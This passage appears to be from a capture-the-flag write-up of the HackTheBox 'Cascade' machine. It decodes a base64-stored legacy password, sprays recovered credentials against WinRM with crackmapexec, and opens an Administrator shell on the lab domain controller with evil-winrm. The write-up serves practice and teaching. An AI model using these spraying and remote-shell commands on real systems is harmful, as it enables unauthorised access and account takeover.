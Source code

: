 ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
```

There is another base64 encoded `CascLegacyPwd`.  `YmFDVDNyMWFOMDBkbGVz` decodes to baCT3r1aN00dles
```
zweilos@kalimaa:~/htb/cascade$ echo YmFDVDNyMWFOMDBkbGVz | base64 -d
baCT3r1aN00dles
```
### Getting a shell

```
zweilos@kalimaa:~/htb/cascade$ crackmapexec winrm -u users -p passwords -d Cascade 10.10.10.182
WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [-] Cascade\Administrator:rY4n5eva "the specified credentials were rejected by the server"
WINRM       10.10.10.182    5985   CASC-DC1         [-] Cascade\Administrator:sT333ve2 "the specified credentials were rejected by the server"
WINRM       10.10.10.182    5985   CASC-DC1         [-] Cascade\Administrator:w3lc0meFr31nd "the specified credentials were rejected by the server"
WINRM       10.10.10.182    5985   CASC-DC1         [+] Cascade\Administrator:baCT3r1aN00dles (Pwn3d!)
```
Pwn3d!
```
zweilos@kalimaa:~/htb/cascade$ evil-winrm -u Administrator -p baCT3r1aN00dles -i 10.10.10.182

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> ls
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Destop
Cannot find path 'C:\Users\Administrator\Destop' because it does not exist.
At line:1 char:1
+ cd ../Destop
+ ~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\Users\Administrator\Destop:String) [Set-Location], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.SetLocationCommand
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls
